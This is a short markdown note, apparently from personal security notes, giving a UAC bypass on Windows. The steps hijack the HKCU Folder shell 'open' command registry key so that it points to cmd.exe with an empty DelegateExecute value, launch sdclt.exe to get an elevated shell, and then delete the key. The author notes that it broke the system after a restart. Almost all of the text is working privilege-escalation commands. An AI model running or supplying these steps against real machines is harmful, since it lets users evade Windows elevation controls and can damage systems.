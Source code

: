 ### Create the Registry
```Powershell

reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f

```
### Call sdclt.exe
```powershell

%windir%\system32\sdclt.exe

```
### Cleanup
```Powershell

reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f

```


### Notes
- Broke system after restart ![[Pasted image 20240624105411.png]]